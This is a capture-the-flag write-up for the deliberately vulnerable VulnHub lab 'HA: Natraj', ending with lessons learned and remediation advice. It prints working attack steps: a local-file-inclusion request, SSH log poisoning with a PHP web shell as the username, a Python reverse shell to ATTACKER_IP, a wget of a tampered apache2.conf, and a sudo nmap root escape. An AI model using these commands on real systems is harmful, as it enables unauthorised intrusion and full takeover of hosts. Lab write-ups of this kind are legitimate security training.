




# HA: Natraj — Writeup

| | |
|-|-|
| **Target IP** | 192.168.10.156 (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Root Flag** | See screenshot (root shell obtained) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/ha-natraj,489/) |

## Attack Summary

nmap → dirb → LFI (`file.php?file=`) → SSH log poisoning via `/var/log/auth.log` → www-data shell → writable `apache2.conf` → `mahakal` shell → `sudo nmap --interactive` → root

## Methodology

1. Network discovery
2. Port scan and web enumeration
3. LFI discovery and SSH log poisoning
4. Reverse shell as `www-data`
5. Privilege escalation to `mahakal` via apache2.conf
6. Root via sudo nmap interactive

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.10.0/24
```

Note the target IP, then run a full service scan:

```bash
nmap -sV -sC -p- 192.168.10.156
```

Open ports: 22 (SSH), 80 (HTTP).



---

## Step 2: Web Enumeration

Browse to the web server — a Hindu deity themed page. Run dirb to find hidden paths:

```bash
dirb http://192.168.10.156/
```

Found: `/console/` directory containing `file.php`.



---

## Step 3: LFI Discovery

Navigate to `http://192.168.10.156/console/file.php`. The parameter `file` is vulnerable to Local File Inclusion:

```
http://192.168.10.156/console/file.php?file=/etc/passwd
```

Confirm LFI by reading `/var/log/auth.log`:

```
http://192.168.10.156/console/file.php?file=/var/log/auth.log
```

The log is readable — SSH auth attempts appear in it.



---

## Step 4: SSH Log Poisoning

Inject a PHP web shell into the SSH auth log by passing it as the SSH username:

```bash
ssh '<?php system($_GET["cmd"]); ?>'@192.168.10.156
```

The string is written to `/var/log/auth.log`. Verify execution:

```
http://192.168.10.156/console/file.php?file=/var/log/auth.log&cmd=id
```

Response shows `uid=33(www-data)`. Now trigger a reverse shell. Set up listener:

```bash
nc -lvnp 1234
```

URL-encode the reverse shell payload and send via the `cmd` parameter:

```
cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Shell received as `www-data`.


---

## Step 5: Privilege Escalation to mahakal

Enumerate write permissions:

```bash
find / -writable -type f 2>/dev/null | grep -v proc
```

`/etc/apache2/apache2.conf` is writable by `www-data`. Inspect the file to find `User` and `Group` directives — currently set to `www-data`. Edit to change the user to `mahakal`:

```bash
# On attacker: edit the User/Group line in a local copy
# Change: User ${APACHE_RUN_USER}  →  User mahakal
# Change: Group ${APACHE_RUN_GROUP} →  Group mahakal

# Serve the modified file
python3 -m http.server 8000
```

On target:

```bash
wget http://ATTACKER_IP:8000/apache2.conf -O /etc/apache2/apache2.conf
sudo /bin/systemctl restart apache2
```

Trigger a new reverse shell from the PHP file hosted on the server — this time it runs as `mahakal`.

---

## Step 6: Root via sudo nmap

```bash
sudo -l
# Output: (root) NOPASSWD: /usr/bin/nmap
```

Use nmap interactive mode to spawn a root shell:

```bash
sudo nmap --interactive
nmap> !sh
```

Shell is now root.

```bash
cat /root/flag.txt
```



---

## Lessons Learned

1. **LFI in PHP** — `file.php?file=` with no sanitization allows reading arbitrary files, including log files
2. **SSH log poisoning** — injecting PHP payloads as SSH usernames is a classic LFI-to-RCE technique
3. **World-writable config files** — `apache2.conf` writable by `www-data` allows privilege escalation by changing the server run user
4. **sudo nmap** — `nmap --interactive` (legacy mode) spawns a shell, escalating to root when nmap is in the sudoers list

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| LFI in file.php | Validate and whitelist the `file` parameter; never pass user input to file-include functions |
| Writable apache2.conf | Set correct ownership (`root:root`) and permissions (`644`) on config files |
| sudo nmap | Remove nmap from sudoers; use specific, minimal sudo rules |
| SSH log poisoning | Restrict log readability; use fail2ban to limit SSH brute force attempts |
